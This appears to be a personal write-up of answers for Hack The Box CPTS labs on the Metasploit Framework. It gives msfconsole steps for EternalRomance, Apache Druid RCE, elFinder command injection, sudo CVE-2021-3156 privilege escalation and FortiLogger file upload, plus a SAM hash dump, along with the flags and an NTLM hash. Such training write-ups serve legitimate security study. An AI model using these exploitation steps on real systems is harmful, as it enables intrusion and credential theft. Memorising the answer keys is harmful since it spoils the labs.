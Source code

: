 ```yaml
---
title: CPTS labs - 08 Using the Metasploit Framework
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - certification
  - CPTS
  - labs
---
```

# CPTS labs - 08 Using the Metasploit Framework


## [Using the Metasploit Framework](https://academy.hackthebox.com/module/details/39)

### Introduction to Metasploit

**Which version of Metasploit comes equipped with a GUI interface?**

Results: Metasploit Pro


**What command do you use to interact with the free version of Metasploit?**

Results: msfconsole

### MSF Components

**Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer.**

```
msfconsole -q

search EternalRomance
use exploit/windows/smb/ms17_010_psexec

#set options, run, and obtain a meterpreter
shell
type C:/Users/Administrator/Desktop/flag.txt
```

Results: HTB{MSF-W1nD0w5-3xPL01t4t10n}


**Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer.**

```
sudo nmap -sC -sV $ip -Pn 
```

```
# From results you have
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
8081/tcp open  http    Jetty 9.4.12.v20180830
| http-title: Apache Druid
|_Requested resource was http://10.129.203.52:8081/unified-console.html
|_http-server-header: Jetty(9.4.12.v20180830)
8082/tcp open  http    Jetty 9.4.12.v20180830
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.12.v20180830)
8083/tcp open  http    Jetty 9.4.12.v20180830
|_http-server-header: Jetty(9.4.12.v20180830)
|_http-title: Site doesn't have a title.
8888/tcp open  http    Jetty 9.4.12.v20180830
|_http-server-header: Jetty(9.4.12.v20180830)
| http-title: Apache Druid
|_Requested resource was http://10.129.203.52:8888/unified-console.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
# Now
msfconsole -q
search apache druid
use linux/http/apache_druid_js_rce
# set RHOSTS, LHOST, etc and run it to obtain a meterpreter

shell
pwd
cd ..
cat flag.txt

```

Results: HTB{MSF_Expl01t4t10n}


### MSF Sessions

**The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?**

Results: elFinder


**Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?**

```
msfconsole -q
workspace -a lala
db_nmap -sC -sV $ip
search elfinder
use linux/http/elfinder_archive_cmd_injection
# SET RHOSTS, SET LHOST...
run
getuid
```

Results: www-data



**The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.**

```
# In the previous session, run
sudo -V
```

```
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
```

After searching in google, we find CVE-2021-3156:

```
search CVE-2021-3156
options
# SET SESSION 2, SET LHOST, SET RHOSTS
run
shell
cat /root/flag.txt
```

Results: HTB{5e55ion5_4r3_sw33t}


Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

```
msfconsole -q
db_nmap -sC -sV -p- $ip
```

From response pay attention to port 5000:

```
Nmap: PORT      STATE SERVICE       VERSION
[*] Nmap: 135/tcp   open  msrpc         Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds?
[*] Nmap: 3389/tcp  open  ms-wbt-server Microsoft Terminal Services
[*] Nmap: |_ssl-date: 2024-09-23T19:38:10+00:00; 0s from scanner time.
[*] Nmap: | ssl-cert: Subject: commonName=WIN-51BJ97BCIPV
[*] Nmap: | Not valid before: 2024-09-22T19:35:32
[*] Nmap: |_Not valid after:  2025-03-24T19:35:32
[*] Nmap: | rdp-ntlm-info:
[*] Nmap: |   Target_Name: WIN-51BJ97BCIPV
[*] Nmap: |   NetBIOS_Domain_Name: WIN-51BJ97BCIPV
[*] Nmap: |   NetBIOS_Computer_Name: WIN-51BJ97BCIPV
[*] Nmap: |   DNS_Domain_Name: WIN-51BJ97BCIPV
[*] Nmap: |   DNS_Computer_Name: WIN-51BJ97BCIPV
[*] Nmap: |   Product_Version: 10.0.17763
[*] Nmap: |_  System_Time: 2024-09-23T19:38:02+00:00
[*] Nmap: 5000/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
[*] Nmap: | http-methods:
[*] Nmap: |_  Potentially risky methods: TRACE
[*] Nmap: |_http-server-header: Microsoft-IIS/10.0
[*] Nmap: |_http-title: FortiLogger | Log and Report System
[*] Nmap: 5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
[*] Nmap: |_http-title: Not Found
[*] Nmap: |_http-server-header: Microsoft-HTTPAPI/2.0
[*] Nmap: 47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
[*] Nmap: |_http-server-header: Microsoft-HTTPAPI/2.0
[*] Nmap: |_http-title: Not Found
[*] Nmap: 49664/tcp open  msrpc         Microsoft Windows RPC
[*] Nmap: 49665/tcp open  msrpc         Microsoft Windows RPC
[*] Nmap: 49666/tcp open  msrpc         Microsoft Windows RPC
[*] Nmap: 49667/tcp open  msrpc         Microsoft Windows RPC
[*] Nmap: 49668/tcp open  msrpc         Microsoft Windows RPC
[*] Nmap: 49669/tcp open  msrpc         Microsoft Windows RPC
[*] Nmap: 49670/tcp open  msrpc         Microsoft Windows RPC
[*] Nmap: 49671/tcp open  msrpc         Microsoft Windows RPC
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Host script results:
[*] Nmap: | smb2-time:
[*] Nmap: |   date: 2024-09-23T19:38:06
[*] Nmap: |_  start_date: N/A
[*] Nmap: | smb2-security-mode:
[*] Nmap: |   3:1:1:
[*] Nmap: |_    Message signing enabled but not required
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

```

After visiting $ip:5000 you can see the Fortilogger service. 

```
search fortilogger
use exploit/windows/http/fortilogger_arbitrary_fileupload
# SET LHOST, RHOSTS...
run 
getuid
```

Results: NT AUTHORITY\SYSTEM
 

Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.

```
lsa_dump_sam
```

```
... CUT ...
RID  : 000003ea (1002)
User : htb-student
  Hash NTLM: cf3a5525ee9414229e66279623ed5c58
... CUT ...

```

Results: cf3a5525ee9414229e66279623ed5c58